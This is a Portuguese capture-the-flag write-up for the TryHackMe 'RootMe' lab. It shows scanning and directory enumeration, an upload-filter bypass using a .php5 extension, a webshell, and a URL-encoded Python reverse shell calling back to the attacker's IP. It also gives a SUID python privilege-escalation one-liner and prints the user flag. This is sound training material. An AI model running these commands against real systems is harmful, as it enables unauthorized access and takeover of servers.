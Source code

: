 ```yaml
---
description: CTF do TryhackME como fiz e anotações.
title: TryhackMe - RootMe - Fácil
date: 2024-01-15 19:01:00 +/-0300
categories: [CTF, TryHackMe]
tags: [ctf, tryhackme, linux, suid, facil]     # TAG names should always be lowercase
show_image_post: true
---
```

![Alt text](/assets/img/rootmelogo.png){: w="100" h="100" .left}

---
# **CTF - Root Me**
---
## **Enumeração**

### nmap 

```shell
sudo nmap -sS -Pn -n --disable-arp-ping --stats-every=7s  10.10.246.13 --min-rate 10000 -oA nmapvers -sCV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-13 21:29 -03
Stats: 0:00:08 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 21:29 (0:00:07 remaining)
Stats: 0:00:14 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.30% done; ETC: 21:29 (0:00:00 remaining)
Nmap scan report for 10.10.246.13
Host is up (0.25s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.57 seconds
```
{: .nolineno }
### gobuster

```shell
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
http://10.10.246.13/uploads              (Status: 200) [Size: 743]
http://10.10.246.13/js                   (Status: 200) [Size: 958]
http://10.10.246.13/css                  (Status: 200) [Size: 1125]
http://10.10.246.13/index.php            (Status: 200) [Size: 616]
http://10.10.246.13/panel                (Status: 200) [Size: 732]
http://10.10.246.13/server-status        (Status: 403) [Size: 277]
http://10.10.246.13/.php                 (Status: 403) [Size: 277]
http://10.10.246.13/.php                 (Status: 403) [Size: 277]
http://10.10.246.13/index.php            (Status: 200) [Size: 616]
http://10.10.246.13/.php                 (Status: 403) [Size: 277]
Progress: 249136 / 249140 (100.00%)
===============================================================
Finished
===============================================================
```
{: .nolineno }


## **Acesso**

Encontrado pagina de upload de arquivos

http://10.10.246.13/panel 

![Alt text](/assets/img/rootme1.png)

Bloqueio de envio de arquivos php, bypass renomeando arquivo para .php5

### Upload de webshell

![Alt text](/assets/img/rootme2.png)

Encontrado arquivo website.zip na home do site

```shell
└─$ ls -R Website          
Website:
css  index.php  js  panel  uploads

Website/css:
home.css  panel.css

Website/js:
maquina_de_escrever.js

Website/panel:
index.php

Website/uploads:
'CAPA CANAL NOVO.png'   shell.php5
```
{: .nolineno }

### Reverse Shell 

```text
http://10.10.246.13/uploads/sh.php5?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.6.125.125%22,4443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22sh%22)%27
```
{: .nolineno }

### Primeira Flag

```shell
bash-4.4$ ls
html  user.txt
bash-4.4$ cat user.txt 
THM{y0u_g0t_a_sh3ll}
```
{: .nolineno }


## **Escalação de Privilegio**

sudo -l precisa de senha
Busca por arquivos SUID

```shell
find / -perm -u=s -type f 2>/dev/null; find / -perm -4000 -o- -perm -2000 -o- -perm -6000
```
{: .nolineno }

Encontrado /usr/bin/python

No [GTFObins](https://gtfobins.github.io/gtfobins/python/#suid) como obter root através de SUID no python.  
`./usr/bin/python -c 'import os; os.execl("/bin/bash", "bash", "-p")'`

### **Última flag encontrada** 
![Alt text](/assets/img/rootme4.png){: .w-75 .normal}
    
